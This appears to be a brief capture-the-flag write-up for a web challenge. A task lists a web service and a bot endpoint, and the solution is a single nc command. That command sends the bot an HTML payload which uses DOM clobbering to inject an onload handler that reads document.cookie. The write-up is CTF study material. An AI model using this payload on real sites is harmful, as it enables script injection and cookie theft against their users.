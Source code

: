 # Task

web: http://65.109.209.215:15000/

bot: echo URL | http://65.109.209.215:14000/

Please download the attachment


# Writeup

```
echo '<p id="Beamer" name="pushDomain"></p><p id="Beamer"></p><a id="Beamer" name="customDomain" href="http:'"'"'/onload='"'"'console.log(document.cookie)'"'"'/x='"'"'"></a><a id="beamerOverlay"><p id="Beamer" name="escapeHtml"></p></a>' | nc 65.109.209.215 14000
```

